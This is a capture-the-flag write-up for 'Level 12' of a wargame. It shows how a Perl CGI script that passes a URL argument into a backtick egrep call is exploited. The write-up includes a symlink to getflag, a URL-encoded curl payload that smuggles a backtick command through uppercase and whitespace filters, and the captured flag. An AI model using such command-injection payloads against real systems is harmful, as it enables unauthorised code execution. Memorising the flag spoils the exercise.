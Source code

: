 # Level 12

We have a perl script that gets the argument from the url, passes it in a multiple regex then pases it in an egrep command

We want to send a payload that will get passed through the regexes

```pl
  $xx = $_[0];
  $xx =~ tr/a-z/A-Z/;
  $xx =~ s/\s.*//;
  @output = `egrep "^$xx" /tmp/xd 2>&1`;
```

The first regex changes all characters to caps and the second one gets rid of the whitespaces so we need a payload that doesn't contain any whitespace and that is in all caps

We will have to execute the getflag command but in all caps so GETFLAG. We need to get it either in a folder in all caps or we need it to be the only GETFLAG file and use a wildcard which will scan all folders and use the found file if it is the only one this we create a fake getflag with a simlink

```bash
ln -s /bin/getflag /tmp/GETFLAG
```

then we want to execute this

```bash
curl 'localhost:4646?x=`/*/GETFLAG>&2`'
```

But we need to encode the url first

```bash
curl 'localhost:4646?x=`%2F%2A%2FGETFLAG%3E%262`'
```

The result appears in the errors of the server and we have access to the error logs of the apache server

```bash
cat /var/log/apache2/error.log
```

**Flag:** g1qKMiRpXf53AWhDaU7FEkczr
